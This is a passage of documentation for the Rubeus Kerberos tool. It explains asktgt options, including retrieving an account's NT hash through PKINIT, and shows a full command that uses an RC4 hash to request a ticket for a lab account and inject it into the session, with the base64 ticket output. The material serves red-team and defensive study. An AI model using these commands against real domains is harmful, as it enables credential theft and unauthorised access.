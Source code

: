 PKINIT authentication is supported with the `/certificate:X` argument. When the private key within the PFX file is password protected, this password can be passed with the `/password:X` argument. When using PKINIT authentication the `/getcredentials` flag can be used to automatically request a U2U service ticket and retrieve the account NT hash.

Requesting a TGT without a PAC can be done using the `/nopac` switch.

Using a KDC proxy ([MS-KKDCP](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-kkdcp/5bcebb8d-b747-4ee5-9453-428aec1c5c38)) to make the request is possible using the `/proxyurl:URL` argument. The full URL for the KDC proxy is required, eg. https://kdcproxy.exmaple.com/kdcproxy

The `/nopreauth` flag can be used to send an AS-REQ without pre-authentication. The `/service:SPN` argument can be used to request service tickets using AS-REQ's directly, it will take an SPN or a username.

Requesting a ticket via RC4 hash for **dfm.a@testlab.local**, applying it to the current logon session:

    C:\Rubeus>Rubeus.exe asktgt /user:dfm.a /rc4:2b576acbe6bcfda7294d6bd18041b8fe /ptt

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.4.1

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\dfm.a'
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

        doIFmjCCBZagAwIBBaEDAgEWooIErzCCBKthggSnMIIEo6ADAgEFoQ8bDVRFU1RMQUIuTE9DQUyiIjAg
        oAMCAQKhGTAXGwZrcmJ0Z3QbDXRlc3RsYWIubG9jYWyjggRlMIIEYaADAgESoQMCAQKiggRTBIIETwrl
        zIpKjTT11eteJCn+0rtlKwtTW/8XvoWXy61rOCrOIo16YPiMe4usXoJaOqsvCydMgd6955hT+IoFMyGG
        VfVxetoM1Oa5aPA2sfzJeogn4RpFBoY5vjjKBzPaTJptPRX7Wjg0o1FTszJET4mhQyLKxQMgprKcc2mz
        yniQzGPI19O95aSoPpNar+4lKlyBsL4QjSEeBdZQ2/Ab1JVu3eh1xCsWkKUUlabbzeZwo8SG0QkZ0DKk
        qOD8hx5wbQ+w8emcLvHMIrmg1xO2OPngK76C3daeiS59UVADSz/n3H7Tfuk+EXSdZ8DC4/c8KIZvHsC6
        cO/ymVFxyuRJLg7VThl8keZmbWzYei6xAwH7mUAUEA1lk0pEHx12nAHcKILsbS3F9wAcHMNEGe/Xa3UK
        INJ0q+JvdJpCPo/wgyu7wjKgsdpgUV0siVfpGaxG7yh6s3U2tAlBWnWdGF/Gy/FkOk/hJxhTTHcHa5XE
        LTaXY9cnraee+llJqmOnHfjPa5+XNTnVtBZjT0SPRnSXfdPG5BgiXYlCjr5ykhF8MdVE1Se+WtEZJuPj
        lYrCtWo2oEjBbYMb3YGTcWh5+oWNY1QdxSpyFc8IDQOTOCnQ+nsQf78phU7svTBm0b5AqqPD/olz1RYm
        f4qR+90TcASaQGwHUQbpFnLb2U9BHwNS+SlRwafFT5qlTmXaqoQMMjknospm0+v0U8hd8KbZ4jwK2hM+
        vE74bOiAMdjTf5YLDorRyuFUoa7oIaJZTXxsLmqZsBCsUnH5etXTb9vHj7Dl27wyP9snRHIWuE8Rdo9Z
        zAJK6PESaBcUqhKqkjWLUKDuT2+SCduPVF6+3QJB0xLJrwXKp/MiV418H/pHRoy6JkKKw2m1bw45P8Az
        l54g75WJqEiAzj/+I64TUfbEFJtd9OHujAKzjMMiKRQKwTKR1Jfb6gTrv6K0GCTJ15W84DeWc47jTutE
        HbWxuKib3niTTM5YcHZcN6h/V8Zef8r4fdhY20xGCwqlT9X5md96+647bRq/AZDtiAEaVAH5f3QTQen8
        o6XpVqSoZxRASEs3oKFfNunBFJ+QxOL4A47iO1JH0wlM7L2Vx+QeDMfqUh3i9S71YBLdHtPflo8ivmNS
        gf0dIeAE2rHRNQn+q7vvrl4r/Bxy3CikzBWnq9Nff8vUJmZ0MQBc4mBpykuuFtLuEJOELdUzW4uCF/9a
        JffKDnWk0lIDymImtxqTO0Y/mk0zEQ7RZNUIR3vtrNSO84CjZ/YFYCIdIR5wCzztPSZ0RH7C4lVueBO5
        ZoDiWYvPuOQsZHkP2XD+GQtu0hN6MOfLOKGVmNrKs1KRfWhbqnTQudjFSkvgHlgjIslKJDa6WzmSQhdW
        fPIA9ggjCmQtyB6seiYi9LdJuQ+GiiF2UphTEJ+a5DR6rGYbg4hhd+ru2Z8Lt5rBojliLnedafyZJ15t
        alU+n8aNdIPXfVmsR3caTXkncNBlo4HWMIHToAMCAQCigcsEgch9gcUwgcKggb8wgbwwgbmgGzAZoAMC
        ARehEgQQ+zY8adXi2NuvkAxl1ohUOKEPGw1URVNUTEFCLkxPQ0FMohIwEKADAgEBoQkwBxsFZGZtLmGj
        BwMFAEDhAAClERgPMjAxOTAyMjUyMzA2MDdaphEYDzIwMTkwMjI2MDQwNjA3WqcRGA8yMDE5MDMwNDIz
        MDYwN1qoDxsNVEVTVExBQi5MT0NBTKkiMCCgAwIBAqEZMBcbBmtyYnRndBsNdGVzdGxhYi5sb2NhbA==
